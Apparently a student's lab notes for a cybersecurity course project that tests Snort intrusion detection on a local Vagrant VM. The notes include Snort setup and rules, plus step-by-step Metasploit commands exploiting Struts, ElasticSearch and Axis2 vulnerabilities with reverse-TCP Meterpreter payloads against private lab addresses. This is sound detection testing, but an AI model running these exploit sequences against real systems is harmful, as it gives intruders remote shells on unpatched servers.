 cybersecurity base project 2 notes

<REMOTEHOST> = 172.28.128.3
<LOCALHOST> = 172.28.128.4
<SNORTINTERFACE> = 2

 virtualbox-iso: The VM will be run headless, without a GUI. If you want to
 virtualbox-iso: view the screen of the VM, connect via VRDP without a password to
 virtualbox-iso: rdp://127.0.0.1:5985
 virtualbox-iso: Waiting 2m0s for boot...

=Install=
1. Clone
2. vagrant plugin install vagrant-omnibus
3. Vagrant up
=Configuration=
1. Install Snort 2.9.9.0 & snortrules-snapshot-2976
2. Install WinPCap 4.1.1
3. Snort conf changes
4. Test with C:\Snort\bin\snort.exe -c C:\Snort\etc\snort.conf -i <SNORTINTERFACE> -k none -T
5. Ping test works with snort.exe -c C:\Snort\etc\snort.conf -i <SNORTINTERFACE> -A console -k none

Test ping rule local.rules:  alert icmp $EXTERNAL_NET any -> $HOME_NET any (msg:"ICMP test"; sid:10000001; rev:001;)

LHOST 172.28.128.4
RHOST 172.28.128.3

Ruleset: snortrules-snapshot-2976

Discovered
1. CVE-2016-3087 - Apache Struts REST Plugin With Dynamic Method Invocation Remote Code Execution
	Prerequisites: Add 8282 to snort.conf HTTP_PORTS
	1. use exploit/multi/http/struts_dmi_rest_exec
	2. set RHOST <REMOTEHOST>
	3. set RPORT 8282
	4. set payload java/meterpreter/reverse_tcp
	5. set LHOST <LOCALHOST>
	6. run
	7. sysinfo
2. CVE-2014-3120 - ElasticSearch Dynamic Script Arbritrary Java Execution
	Preqrequisites: Uncomment line 812 in server-other.rules ("SERVER-OTHER ElasticSearch script remote code execution attempt")
	1. use exploit/multi/elasticsearch/script_mvel_rce
	2. set RHOST <REMOTEHOST>
	3. set payload java/meterpreter/reverse_tcp
	4. set LHOST <LOCALHOST>
	5. run
	6. sysinfo

3. CVE-2010-0219 - AXIS2 / SAP BusinessObjects Authenticated Code Execution (via SOAP)
	1. use exploit/multi/http/axis2_deployer
	2. set RHOST <REMOTEHOST>
	3. set RPORT 8282
	4. set payload java/meterpreter/reverse_tcp
	5. set LHOST <LOCALHOST>
	5. run
	6. sysinfo

	
